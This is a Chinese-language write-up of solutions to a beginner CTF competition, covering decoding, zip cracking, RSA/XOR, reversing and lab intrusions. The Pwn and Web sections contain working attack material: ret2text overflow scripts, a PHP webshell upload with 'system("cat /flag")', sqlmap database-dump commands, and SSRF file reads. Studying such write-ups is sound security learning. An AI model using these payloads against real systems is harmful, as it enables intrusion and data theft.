

# 赣CTF WriteUp

## Misc

### sign_in

给了一个**sign_in.txt**附件，里面是一串文本。

>NjY2QzYxNjc3QjU0Njg2OTczNUY2OTM1NUY3NjMzNzI3OTVGMzM2MTczNzkyMTIxMjE3RAo=

一眼**base64**,丢进**CyberChef**烹饪一下得到：
    
> 666C61677B546869735F69355F763372795F336173792121217D

再一眼**base16**,还是一样的做法得到:


flag：

> flag{This_i5_v3ry_3asy!!!}

### fences_of_light

给了一张图



没什么好说的，纯看眼力，这段文本内容为：

> Welcome to 赣CTF 
>
> Here is the flag.f
>
> lag{w3lc0me_t0_th
>
> e_f@ntastic_ctf_w
>
> 0rld!!!}

flag：

> flag{w3lc0me_t0_the_f@ntastic_ctf_w0rld!!!}

### base64

给了一个exe文件，但打不开，尝试使用记事本打开，有若干段base64，有趣的是直接对base64解码，可以发现都是J-POP的歌曲，但重点不在这里。


可以查到这是个base64隐写,在网上随意找了个脚本运行,返回了

> 666C61677B555F6172335F7265406C5F6261733372217D

还是**base16**,


flag：

> flag{U_ar3_re@l_bas3r!}

### ez_zip1

给了个压缩包，打开**010editor**查看


可以看到两个加密标记位都是奇数，但改成00后，发现是伪加密。提取文件，其中还有一个压缩包"flag.zip"，还是先查看伪加密，发现不是尝试爆破，爆破成功。

将密码**0913**填入，解压查看**flag.txt**


flag：

> flag{41e8dd8f-389a-fa59-2a4b-e6b4844b1019}

### ez_zip2

还是压缩包，查看文件内容发现里面有6个txt文件且都为4B大小，猜测是crc32爆破，查看文件的crc值：

> 847ADE91 8F10EFFB D7B86FBA EC1F5853 A8C830AD CB3F5C31

爆破！


如图，重复6次得到：

> 9c1f88742f1023937171f0e2

解压，还有一层**flag.zip**，卡了我几天，后面终于找到**bkcrack**爆破。由于bkcrack爆破需要知道内容至少**12**字节的内容，可知zip内部为**flag.png**。打开010editor构造文件头，如下：


再爆破出key，

> fcdf3458 84e54077 d0ca60b6

但这个key并不是真正的key，我们得用这个key构建一个与原压缩包内容相同的新压缩包，但密码由自己设定：


在这里我设成了ez，最后解压打开**flag.png**.


flag:

> flag{b7b043ed-3f27-325c-013a-da17f5b23a17}

### ez_usb

打开压缩包，存有一个**pcapng**文件，用**wireshark**打开,发现其中都为**HID Data**


再用**wireshark**提取数据，存为**usbdata.txt**,编写脚本解码敲击码

```py
normalKeys = {"04":"a", "05":"b", "06":"c", "07":"d", "08":"e", "09":"f", "0a":"g", "0b":"h", "0c":"i", "0d":"j", "0e":"k", "0f":"l", "10":"m", "11":"n", "12":"o", "13":"p", "14":"q", "15":"r", "16":"s", "17":"t", "18":"u", "19":"v", "1a":"w", "1b":"x", "1c":"y", "1d":"z","1e":"1", "1f":"2", "20":"3", "21":"4", "22":"5", "23":"6","24":"7","25":"8","26":"9","27":"0","28":"<RET>","29":"<ESC>","2a":"<DEL>", "2b":"\t","2c":"<SPACE>","2d":"-","2e":"=","2f":"[","30":"]","31":"\\","32":"<NON>","33":";","34":"'","35":"<GA>","36":",","37":".","38":"/","39":"<CAP>","3a":"<F1>","3b":"<F2>", "3c":"<F3>","3d":"<F4>","3e":"<F5>","3f":"<F6>","40":"<F7>","41":"<F8>","42":"<F9>","43":"<F10>","44":"<F11>","45":"<F12>"}
shiftKeys = {"04":"A", "05":"B", "06":"C", "07":"D", "08":"E", "09":"F", "0a":"G", "0b":"H", "0c":"I", "0d":"J", "0e":"K", "0f":"L", "10":"M", "11":"N", "12":"O", "13":"P", "14":"Q", "15":"R", "16":"S", "17":"T", "18":"U", "19":"V", "1a":"W", "1b":"X", "1c":"Y", "1d":"Z","1e":"!", "1f":"@", "20":"#", "21":"$", "22":"%", "23":"^","24":"&","25":"*","26":"(","27":")","28":"<RET>","29":"<ESC>","2a":"<DEL>", "2b":"\t","2c":"<SPACE>","2d":"_","2e":"+","2f":"{","30":"}","31":"|","32":"<NON>","33":"\"","34":":","35":"<GA>","36":"<","37":">","38":"?","39":"<CAP>","3a":"<F1>","3b":"<F2>", "3c":"<F3>","3d":"<F4>","3e":"<F5>","3f":"<F6>","40":"<F7>","41":"<F8>","42":"<F9>","43":"<F10>","44":"<F11>","45":"<F12>"}
output = []
keys = open('Misc/usbdata.txt')
flag = []
for line in keys:
    if line[4:6] in normalKeys:
        tmp = normalKeys[line[4:6]] if line[1] != "2" else shiftKeys[line[4:6]]
        flag.append(tmp)
    
print(flag)
```

得到：


flag:

> *flag{d16bd8ee-515d-207f-97c1-b4f80563db53}*

### ez_mc

一个压缩包，解压后发现为mc存档，使用**NBTExplorer**查看，发现版本为**1.20.2**.

放到mc的save文件夹中，打开游戏，进入存档，发现有四个闯关：

- 跑酷试炼
- 生存试炼
- 红石联通试炼
- 射箭试炼

每个闯关有一部分flag，说是不能作弊实际只是不能开创造模式，所以过关方法很多。


flag：

> flag{a6525897-c720-2899-895b-627c9d75fe82}

### 找呀找呀找朋友


社工题，给了张图，查询其中**声临阿加莎**可以发现是一个剧目，在上海市的茉莉花剧院，打开**大麦app**，查看场照和座位表：


结合flag格式可解

> flag{某某市\_某某路\_某某\_总第某排\_当前区域第某排}

flag:

> flag{上海市\_北海路\_茉莉花剧场\_第四总排\_当前区域第二排}

### pixel_game

给了一张图片和一段描述


> 好怪,在一堆像素里面能放进什么信息呢?
>
> 提示:像素是由什么组成的来着?

说与像素有关,用python的**PIL**写了个脚本查看像素RGB值，发现


RGB中除0外只存在**33 40 41 43 91 93**六个数字，当作ascii码,即为**+ ( ) [ ] !**这几个字符,推断为**jjcode**,编写脚本

```py
from PIL import Image

image = Image.open('pixel_game.png')
width,height = image.size
pixel=[]

for i in range(height):
    for j in range(width):
        tmp = image.getpixel((j,i))
        pixel.append(tmp)

for i in pixel:
    for j in i:
        if j != 0: print(chr(j),end='')
```

得到


放入浏览器控制台，可解出


flag:

> flag{Plx3l_1s_fun!!!}

## Crypto

### 不明来信1

> 882014080880180120410804880482041081201824028802014880140120180482

只有**0 1 2 4 8**五个数字，推测为云影密码，脚本：

```PY
encoded = "882014080880180120410804880482041081201824028802014880140120180482"
encoded_ls=encoded.split('0')
flag=""
for i in encoded_ls:
    sum=0
    for j in i:
        sum+=eval(j)
    flag+=chr(sum+64)
print(flag,sep="")
```

得到

> REHPICEHTNEKORBUECIN

看出是逆序：

> NICEUBROKENTHECIPHER

flag:

> flag{NICE_U_BROKEN_THE_CIPHER}

### 不明来信2

> 几天后，w神又收到了另一封匿名来信，信上却有许许多多他看不懂的单词:) ?
>
> mddg xkdmkpooikr pnkipgw lfdt cepc au ceiw tpfc cd dxcaoabi cei xikudkopfqi du ceiak qdgi ceiw fiig cd udqvr df cei hdccnifiqlr aoxkdsioifcr af dceik xnpqir tdfc waing kirvncr cei rpoi ar ckvi du riqvkacw rwrcior unpm ar tinqdoi cd qkwxcdmkpxew hvc wdv fiig cd kixnpqi rxpqir tace vfgikrqdkir cd mic cei uafpn qdkkiqc unpm wdv fiig cd aoxkdsi cei tiplirc pkipr pfg au ceikir p hpqlgddk cepc qpf ispgi wdvk riqvkacw oiprvkir ac gdirfc opccik edt upfcprcaq wdvk qkwxcdmkpxeaq pnmdkaceor pki

栅栏试了一下，凯撒试了一下没有用，使用**quipqiup**暴力，得到

> good programmers already know that if they want to optimize the performance of their code they need to focus on the bottlenecks improvements in other places wont yield results the same is true of security systems **flag is welcome to cryptography** but you need to replace spaces with underscores to get the final correct flag you need to improve the weakest areas and if theres a backdoor that can evade your security measures it doesnt matter how fantastic your cryptographic algorithms are

flag:

> flag{welcome_to_cryptography}

### 嗷嗷嗷

> ~呜嗷啊嗷嗷\~\~啊嗷啊啊呜啊呜呜\~\~嗷嗷嗷嗷啊啊\~呜呜嗷啊呜嗷嗷呜嗷嗷呜嗷嗷嗷呜\~\~嗷\~呜啊呜嗷呜啊嗷嗷呜啊啊呜\~\~嗷嗷嗷\~嗷嗷\~啊嗷啊嗷啊啊嗷\~\~呜啊呜啊呜呜\~\~嗷嗷呜啊啊呜\~\~嗷呜嗷啊啊呜呜呜嗷呜嗷嗷嗷呜\~\~嗷啊呜\~啊嗷\~嗷\~\~啊嗷嗷\~啊啊呜嗷呜嗷嗷嗷啊\~呜啊呜嗷呜\~呜\~嗷啊嗷呜嗷啊\~嗷嗷嗷嗷\~呜嗷啊呜啊呜呜嗷\~呜呜呜呜啊呜\~嗷呜啊嗷啊\~呜\~嗷呜嗷嗷嗷啊

搜索，发现是兽音译者，放入在线工具中

> 苏吕褚朱余钱金余褚吕金赵余姜李华邹余蒋陶魏韩

百家姓加密，还是在线工具

> magnet:?xt=urn:btih:Flag_1s_als0_v3ry_cute

flag

> flag{Flag_1s_als0_v3ry_cute}

### ezRSA

> public key: 31 and 567493820483
> private key: 146449627231 and 567493820483
> ciphertext:307560071638 239326676862 0 247490407109 182290374773 425320511222 12801158368 166767571795 182290374773 425320511222 182290374773 425320511222 182105678525 263197593323 387021519693 261474474619 263197593323 0 425320511222 261474474619

RSA加密，python写了个简单脚本：

```py
n = 567493820483
e = 31
d = 146449627231

c = list(map(int,"307560071638 239326676862 0 247490407109 182290374773 425320511222 12801158368 166767571795 182290374773 425320511222 182290374773 425320511222 182105678525 263197593323 387021519693 261474474619 263197593323 0 425320511222 261474474619".split()))
m = []

for i in c:
    m.append(pow(i,d,n))

flag = ""
for i in m:
    flag += chr(i+97)
print(flag)
```

得到：

> flagisthisisveryeasy

flag:

> flag{this_is_very_easy}

### XOR

给了一段python代码

```py
from flag import flag

def encrypt(x, y):
        key='gctf'
        result=''
        for i in range(len(x)):
                result+=chr(ord(x[i])^ord(y[i])^ord(key[i%4]))
        return result
x = flag
y = flag[1:] + flag[0]

enc = open('flag.enc', 'wb')
enc.write(encrypt(x, y))
enc.close()
```

根据代码我们可以列出如下方程

$$
\begin{array}{c}
enc_0 &=& flag_0 \oplus flag_1 \oplus key_0\\
enc_1 &=& flag_1 \oplus flag_2 \oplus key_1\\
enc_2 &=& flag_2 \oplus flag_3 \oplus key_2\\
enc_3 &=& flag_3 \oplus flag_4 \oplus key_3\\
...   &=& ...\\
enc_{n-1} &=& flag_{n-1}\oplus flag_1\oplus key_{n \mathrm{mod}4}
\end{array}
$$

构成了一个环，由于key已知，所以只要知道其中一个字符便能出所有解，脚本如下

```python
file = open("Crypto/flag.enc","r")
enc = file.readline()
print(list(map(ord,enc)))
file.close()

key = "gctf"

mid = []
for i in range(len(enc)):
    mid.append(ord(enc[i])^ord(key[i%4]))
print(mid)

for char in range(0,128):
    flag = chr(char)
    pos = char
    for i in mid[1:]:
        tmp = pos^i
        flag += chr(tmp)
        pos = tmp

    if "flag" in flag: print(flag)
```

得到

> Congratulations,you find it:flag{XOR_IS_FUNNY!}

flag：

> flag{XOR_IS_FUNNY!}

## Pwn

### testnc

如标题，工具测试题，使用**nc**连接靶机读取flag即可


flag:

> flag{03d6d02c-2a70-4d72-9750-1e4d86c25880}

### what_is_tac

和上题差不多，只不过多了对**flag**的字符检测，我们使用**fla?.txt**绕过，并使用标题中的**tac**指令即可


flag:

> flag{add0045a-8771-4a75-8e32-195b64a41723}

### calc

> 计算一百次加法就可以得到flag辣

如描述,连接靶机后一直会要求我们计算加法，使用**pwntools**编写脚本

```py
from pwn import *

r = remote("47.76.55.63","24950")

r.recvline()
a = r.recvline().decode().rstrip("\n")
for i in range(99):
    print(i+1,a)
    payload = str(eval(a)).encode()
    r.sendline(payload)
    message1 = r.recvline().decode().rstrip("\n")
    message2 = r.recvline().decode().rstrip("\n")
    print(message1,"\n",message2,sep="")
    a = r.recvline().decode().rstrip("\n")
print(a)
r.interactive()
```

结果如下


flag:

> flag{260d6273-f086-49bc-8a95-ef5af4ac6b23}

### 负数?

如标题，连接靶机，输入负数即可。


flag:

> flag{1a9ebd98-bfb0-4d30-a4bf-227e80a68b5d}

### game

连接靶机，选择难度开始游戏


通关后却啥也没有，于是我们使用IDA查看程序文件,发现**pwngame**函数中有**system("/bin/sh")**,我们的任务便是触发这个函数，又在**Menu**中发现输入**996**时会调用**pwngame**


所以我们连接靶机，执行操作


flag:

>flag{ac6f04d2-384d-4eef-9fee-7f24e6d10a11}

### ret2text

栈溢出题，先checksec一下,发现**NX**开启


然后观察IDA，发现**backdoor**函数中含有**system("/bin/sh")**，以及**vuln**函数通过gets读取数据，长度为**64**字节，64位程序，所以偏移位为**64+8=72**


编写脚本

```py
from pwn import *

r = remote("47.76.55.63",25996)

move = 0x40 + 8
payload = b"a"*move + p64(0x004011E5)

r.sendline(payload)
r.interactive()
```

运行结果如下


flag:

> flag{300c17b3-83e5-4f37-8ce3-9024890dd069}

### 异构

和**ret2text**一样的做法，不过指令集和架构不同。查看IDA发现**vuln**读取64字节但无限制，32位程序,偏移位**64+4=68**字节，**backdoor**函数从**0x400844**开始，编写脚本。

```python
from pwn import *

r = remote("47.76.55.63",27107)

move = 0x40+4
payload = move * b'a' + p32(0x400844)

r.sendline(payload)
r.interactive()
```

运行结果如下


flag:

> flag{89f7263f-202a-4ecf-b94a-d5ba7b60ec85}

## Web

### ez_信息收集

尝试常见文件名，最终在**robots.txt**中发现了如下文本

>  Disallow: gxngxngxn.php

打开**gxngxngxn.php**

>  怕忘记了，就把账号密码放在这里吧
> 
>  username: gxngxngxn
> 
>  password: Y0u_are_gr3at!

登录页面，显示如下


查看源代码中**rain.js**发现flag


flag：

> flag{ec55b403-7702-4181-8d01-5591986ae1a9}

###  ez_信息收集2

这题是我在ipad上做的，还是打开**robots.txt**，但这次内容变成了一段话带一堆文件名


我们编写python脚本

- 读取文件列表

```python
import urllib.request

url = "http://47.76.55.63:23351/robots.txt"

response = urllib.request.urlopen(url)
content = response.read().decode('utf-8')

urls = open("urldic.txt",'w')
urls.write(content)
urls.close()

print(content)
```

- 爬取文件内容

```python
import urllib.request

urls = []

urldic = open('urldic.txt','r')
line = urldic.readline()
line = urldic.readline().rstrip('\n')
while line:
    urls.append(line)
    line=urldic.readline().rstrip('\n')
urldic.close()

for i in urls:
    url = "http://47.76.55.63:23351/"+i
    response = urllib.request.urlopen(url)
    content = response.read().decode('utf-8')
    print(content)
```

返回内容


登录后还是flagrain,查看源码


flag:

> flag{5533a9df-b006-476c-a76e-2b8773ed1315}

### 水果忍者

查看源码**all.js**在开头发现flag


flag:

> flag{9f140897-40ef-4788-b040-ffd61e271ff3}

### ez_RCe

观察PHP代码

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
$a = $_POST["eval"];
if(!preg_match("/flag|cat|tac|system|\\$|\\.|\\\\|exec|pass/i",$a)){
    eval($a);
}
else{
    echo "Hacker!!!";
}
```

可知cat、system等一系列命令都被过滤了，我们构造如下请求绕过


flag:

> flag{645df240-2943-4431-90d2-1b4da323ecd6}

### ikun的危险secret

> ikun的秘密被放在了前端的源码里，gxngxngxn表示这样真的很危险！！！

加入网页，发现是一个砖块破坏者的游戏，只有通关游戏才能得到secret，但我们显然不会这么干，打开f12，查看源码，在**game.js**的**finalgame**函数中发现secret

> ZmxhZ+WcqOWTquaIkeS4jeefpemBk++8jOaIkeWPquefpemBk+S9oOi/
> mXBocOeJiOacrOW+iOWNsemZqeWViiEhIQ==

**base64**解码后

> flag在哪我不知道，我只知道你这php版本很危险啊!!!

我们尝试**BurpSuite**抓包,在响应中发现PHP版本

> PHP/8.1.0-dev

可知存在后门命令执行漏洞，放入重放器中进行攻击,添加**User-Agentt**字段


flag:

> flag{2fbfe1fd-fc37-42f7-bbd3-fb83d4f9ac92}

### Array-Master

观察php代码

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
$a=$_POST['a'];
$b=$_POST['b'];
if(md5($a) == md5($b) && $a !== $b){
    if(is_array($a) && is_array($b)){
        echo "这么喜欢用数组，那我就考考你数组好了O.o</br>";
        $c=array("C","T","F","E","R");
        if($c == $_POST['d'] && $c !== $_POST['d']){
            echo "你就是ARRAY MASTER!!!</br>";
            echo file_get_contents('/flag');
        }
        else{
            echo "你就是ARRAY JOKER!!!";
        }

    }
    else{
        echo "不想用数组?我偏要!!!";
    }
}
else{
    echo "最经典的一集，想用什么方式bypass呢?";
}
```

可知是弱比较和数组绕过，构造如下请求


flag:

> flag{72a0813e-d6fc-419c-9a1f-64c25e05509c}

### \_\_,()()!!

> ##### 我是c语言大佬，当年没有下载原神的那批人，现在f12和右键都被我嗨掉了

**f12**和**右键**无法使用,但是我们还可以使用**Ctrl+U**


进入第二关

```php
if ($_SERVER["REQUEST_METHOD"] == "GET") {    
        $yuanshen = $_GET["yuanshen"];  
        if ($yuanshen == "qidong!") {  
            echo "surprise?";  
        } else{  
            highlight_file("114514.php");
        } 
    }   
```

一段php，很简单只要发包让**yuanshen=qidong!**就行,进入第三关

> 看来你已经学会传参了
> 那么再用post传入'x=flag'即可得到本题的flag
> 然后开启你的网安之路吧

POST传入后，出现一个视频，告诉我们

> 抓个包试试吧

我们不使用burpsuite直接f12查看网络发现(我在抓综合渗透题的包时也发现了这个flag，暴打出题人)


flag:

> flag{Yuan_1ai_N1_y3_W4n_yUAn5HeN}

### 头像收集器

开启靶场发现是个文件上传题，只能上传图片后缀文件，尝试文件包含，构造一句话木马，

```php
<?php
    phpinfo()
?>
```

上传，返回一串文件路径,类似这段.

> /var/www/html/upload/8927247437

尝试路径，发现会去除后缀原样下载文件，点击再一次上传，域名改变

> url/Try_Again.php?file=index.php

存在get请求，我们尝试改为

> url/Try_Again.php?file=/var/www/html/upload/8927247437

返回一片空白，但查看源码发现原来构造的木马,	猜测标签过滤，重新构造木马

```php
<script language="php">phpinfo();</script>
```

上传，再次查看路径，成功


构造如下语句,查看文件目录

```php
<script language="php">system("ls /")</script>
```


构造语句，取得flag

```php
<script language="php">system("cat /flag")</script>
```


flag:

> flag{bb0a3025-5764-4b36-95de-b106d0df38c5}

### web综合渗透靶场flag1

开启靶机，使用**dirsearch**扫目录

> [20:07:10] 301 -  169B  - /.idea 
> 
> [20:07:10] 403 -  555B  - /.idea/
> 
> [20:07:10] 200 -  541B  - /.idea/dataSources.xml
> 
> [20:07:10] 200 - 1004B  - /.idea/dataSources.local.xml
> 
> [20:07:11] 200 -  273B  - /.idea/modules.xml
> 
> [20:07:11] 200 -    6KB - /.idea/workspace.xml
> 
> [20:07:58] 301 -  169B  - /admin 
> 
> [20:08:04] 200 -    2KB - /admin/login.php
> 
> [20:08:39] 301 -  169B  - /api 
> 
> [20:09:44] 200 -   25B  - /flag.php
> 
> [20:10:13] 301 -  169B  - /lib 
> 
> [20:10:17] 200 -    1KB - /login.php
> 
> [20:11:32] 301 -  169B  - /static 
> 
> [20:11:49] 301 -  169B  - /upload 
> 
> [20:11:49] 403 -  555B  - /upload/
> 
> [20:11:50] 302 -   52KB - /user.php  ->  login.php

查看**url/flag.php**出现

> 不是Firefox的我不用

抓包并修改**User-Agent**为**Firefox**，消息改为

> 我不接受来自外部的IP

添加**X-Forwarded-For:127.0.0.1**,又换了一段消息

>利用?request参数来发起请求吧！！！
>
> CURL请求失败

随机尝试了一些内容,发现能够通过**request**参数来查看网站目录，推测为SSRF漏洞，还可以构造**file:///var/www/html/flag.php**提取源码，如下

```php
//不会告诉你，真正的flag是需要请求172.18.0.2的flag.php来获取的
$allowedIp = '127.0.0.1';
$allowedUserAgentPattern = '/Firefox/i';

// 获取X-FORWARD-FOR请求头
$xForwardedFor = isset($_SERVER['HTTP_X_FORWARDED_FOR']) ? $_SERVER['HTTP_X_FORWARDED_FOR'] : '';
$UA = isset($_SERVER['HTTP_USER_AGENT']) ? $_SERVER['HTTP_USER_AGENT']:'';


// 检查IP是否在允许的列表中
if(preg_match($allowedUserAgentPattern, $UA)) {
    if (strpos($xForwardedFor, $allowedIp) !== false) {

        $req = $_GET['request'];
        echo "<h1>利用?request参数来发起请求吧！！！</h1>";
        $ch = curl_init($req);

        $response = curl_exec($ch);

        // 检查CURL是否成功
        if ($response === false) {
            echo 'CURL请求失败: ' . curl_error($ch);
        } else {
            echo 'CURL请求成功: ' . $response;
        }

        // 关闭CURL句柄
        curl_close($ch);
    } else {
        echo '我不接受来自外部的IP';
    }
}
else{
    echo "不是Firefox的我不用";

}
```

结合**dirsearch**的结果，查看**/user.php**文件,得到flag


flag:

> flag1{17013e65-4e6f-b9f6-a308-ce3878e8212c}

### web综合渗透靶场flag2

再次尝试登录页面，随便打用户名和密码，使用**BurpSuite**抓包，存为**request.txt**，大致内容如下：

```
POST /login.php HTTP/1.1
Host: 47.76.55.63:27785
Content-Length: 25
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://47.76.55.63:27785
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.159 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://47.76.55.63:27785/login.php
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=b74c751d0df1cfaa4cf2149f0fd11e82
Connection: close

username=123&password=132
```

使用**sqlmap**尝试注入

> sqlmap -r "request.txt"

注入成功，自动登录进了**guest**用户页面，瞎翻翻，发现在文章管理中的删除文章处存在注入点，点击删除后地址变为

> url/api/removeBlog.php?id=3

再次构建语句尝试注入

> sqlmap -u url//api/removeBlog.php?id=3 --dbs

得到

> available databases [6]:
> 
> [\*] ctfer
> 
> \[\*] information_schema
> 
> [\*] mysql
> 
> [\*] performance_schema
> 
> [\*] sys
> 
> [*] test

推测flag应当在**ctfer**中，继续注入

>sqlmap -u url//api/removeBlog.php?id=3 -D ctfer --tables

获得表名


构造

> sqlmap -u url//api/removeBlog.php?id=3 -D ctfer -T flag --columns

得到


构造

> sqlmap -u url//api/removeBlog.php?id=3 -D ctfer -T flag -C flag --dump

获取字段**flag**中的内容，得到


flag：

> flag2{83fc5b4e-d70a-be97-0ec2-6cdde9eb1b30}

### web综合渗透靶场flag3

通过sqlmap在ctfer下的user表中获取到username和password


发现管理员密码被加密，使用**SSRF**漏洞获取源码

```php
<?php
session_start();
//管理员登陆


if ($_SESSION['username']){
    header("Location: ../index.php");
}else{
    require dirname(__FILE__) . "/../view/admin_login.html";
    require "../function/User.php";
    include "../lib/config.php";
    if($_SERVER['REQUEST_METHOD'] === 'POST'){
        $username = addslashes($_POST['username']);
        $password = addslashes($_POST['password']);
        $password = base64_encode(str_rot13($password.$salt));
        $user = new User();
        $res = $user->login($username,$password);

        if ($res){
            $is_admin = $res['is_admin'];
            if ($is_admin == 0){
                echo "<script>
                                    let newPop = document.createElement('div');
                                    newPop.className = 'popup warn popBlock';
                                    newPop.textContent = '普通用户请从普通用户登陆界面登陆！';
                                    document.body.appendChild(newPop)
                                    
                                    setTimeout(function (){
                                        window.location.href='../login.php';
                                    },2000)
                      </script>";
            }else{
                $login_successful = TRUE;
                $_SESSION['username'] = $res['username'];
                $_SESSION['password'] = $res['pass'];
                $_SESSION['is_admin'] = 1;
                echo "<script>
                                    let newPop = document.createElement('div');
                                    newPop.className = 'popup succeed popBlock';
                                    newPop.textContent = '登录成功！跳转中';
                                    document.body.appendChild(newPop)
                                    
                                    setTimeout(function (){
                                        window.location.href='../index.php';
                                    },2000)
                      </script>";

            }
        } else {
            echo "<script>
                                    let newPop = document.createElement('div');
                                    newPop.className = 'popup error popBlock';
                                    newPop.textContent = '账号或密码不正确！';
                                    document.body.appendChild(newPop)
                                    setTimeout(function (){
                                       $('.popup').addClass('remove')
                                       setTimeout(function (){
                                          $('.popup').removeClass('remove').removeClass('popBlock').removeClass('error')
                                       },300)
                                    },2000)
                      </script>";
        }
    }

}
```

观察源码中的引用，还是**SSRF**取得**config.php**源码

```php
function cry($str,$salt)
{
    return ("ba".base64_decode("c2U2NA==")."_"."encode")(str_rot13($str.$salt));
}

$salt = "newstar";
$valid_code = "114514";#邀请码
$password = cry("ganctf666@",$salt);
$uploadDir = dirname(__FILE__)."/../upload/";
```

得到管理员密码，登录，发现在管理员页面下，文章上传处图片上传开启，尝试文件包含，注入一句话木马，蚁剑连接成功。


在根目录尝试查看flag失败，权限不足。不会提权，试了一天，遂放弃。

### web综合渗透靶场flag5

>除此之外，内网还有一台主机的flag.php也拥有flag文件噢，想想可以通过哪几种方式给读取；（ps：改成静态容器，内网环境做不了了，ssrf请求110.41.48.63:10024/flag.php这个地址吧）

查看描述，进入网站**110.41.48.63:10024/flag.php**(更换静态容器后，根本不用通过SSRF来请求，可以直接进，出题人接锅)

> 恭喜你，掌握了ssrf的基本原理，想要得到flag吗？那就**以get方式发送一个参数为wa_nt的请求**吧

构造**url/flag.php?wa_nt=1**,发送，得到前半flag

> flag5{66ff12b7-e4be-f1
>
> 如果你想得到另一半，那就**尝试用POST方式发送一个参数为key=web的请求**吧

抓包，改请求头**GET**方式为**POST**方式,在请求体中写入**key=web**,取得后半flag

> 95-0d1d-acdb03394f0d}

flag：

> flag5{66ff12b7-e4be-f195-0d1d-acdb03394f0d}

## Reverse

### ez_xor

直接丢入IDA查看main函数


逻辑很简单，输入flag然后对flag的字符与其下标异或，编写脚本

```python
enc = 'fmcd\x7Fqnn{V;xSLQi|pun'
res = ''

for i in range(len(enc)):
    res += chr(ord(enc[i])^i)

print(res)
```

结果如下


flag：

> flag{this_1s_A_flag}

### ez_upx

同标题，先upx解包，再进入ida，这次我们先看汇编，发现了个很神奇的地方。


传入rax的值，写作小端法，高位变成

> 66 6C 61 67
>
> f l a g

顺着这个思路得到flag

flag：

> flag{UXP_yyds!}

### try_reverse_it

打开查看main函数，发现是RC4加密,获取密文，编写脚本

```c
#include<stdio.h>
#include<string.h>

void swap(unsigned char* a,unsigned char* b){
    unsigned char t;
    t=*a;
    *a=*b;
    *b=t;
}

void  rc4encode(unsigned char data[],unsigned char key[]){
    int i=0,j=0;
    unsigned int  t,n;
    unsigned char S[256];
    unsigned char T[256];

    for(i=0;i<256;i++){
        S[255-i]=i;
        T[i]=key[i%strlen(key)];
    }
    for(i=0;i<256;i++){
        j=(j+S[i]+T[i])%256;
        swap(&S[i],&S[j]);
    }
    i=0;j=0;
    for(int k=0;k<strlen(data);k++){
    i=(i+1)%256;
    j=(j+S[i])%256;
    swap(&S[i],&S[j]);
    t=(S[i]+S[j])%256;
    n=S[t];
    data[k]^=n;
    }
}
int main(){
     unsigned char data[]={0x6C,0xF8,0x90,0xFF,0x8B,0x18,0xE5,0x76,0xB5,0xFB,0x50,0xF5,0x2C,0x5F,0xF3,0x10,0xCB,0x3E,0xEA,0x9A,0xC8,0x37,0x2D,0x4F,0xCC,0x8F,0x21,0x29,0x17,0x06,0xCA,0x67};
     unsigned char key[]="let's_revers_it";
     rc4encode(data,key);
     puts(data);
     rc4encode(data,key);
     puts(data);
    return 0;
}
```

得到


flag:

> flag{Y0u_5eem_1ike4pro_revers3r}

### py?python!

```python
def encrypt(data, key):
    encrypted_data = []
    key_len = len(key)
    for i in range(len(data)):
        encrypted_data.append(ord(data[i]) ^ ord(key[i % key_len]))
    return encrypted_data[::-1]


data = [19, 78,6 , 68, 17, 36, 23,63, 55, 0, 57, 15, 42, 32, 88, 51, 38, 41, 95, 3, 40, 71, 43, 15, 93, 29, 40, 43, 12, 96
, 55, 20, 15, 21, 21,54]
key = "Python"
flag = input("请输入flag")
encrypted_data = encrypt(flag, key)
if encrypted_data == data:
    print("Good!You find it")
else:
    print("Sorry,Try again")
```

观察**encrypt**还是经典异或加密，编写脚本

```python
def decrypt(data, key):
    encrypted_data = []
    key_len = len(key)
    for i in range(len(data)):
        encrypted_data.append(data[i] ^ ord(key[i % key_len]))
    return encrypted_data[::-1]


enc = [19, 78,6 , 68, 17, 36, 23,63, 55, 0, 57, 15, 42, 32, 88, 51, 38, 41, 95, 3, 40, 71, 43, 15, 93, 29, 40, 43, 12, 96
, 55, 20, 15, 21, 21,54]
key = "Python"
decrypted_data = decrypt(enc[::-1], key)

for i in decrypted_data[::-1]:
    print(chr(i),end="")
```

结果如下


flag：

> flag{Y0u_@r3_R3@l1y_G0OD\_@t_Pyth0n!}

### ez_maze

打开IDA，观察main函数


结合标题发现这是一个走迷宫的程序，**v6**为6x5的地图，**wasd**为上下左右，**@**为起点，**#**为终点

```c
//mazemap
@0111
10101
10011
11001
11101
00#01
```

可以知道路径为**dssdsdssa**，运行程序验证成功


flag：

> flag{dssdsdssa}
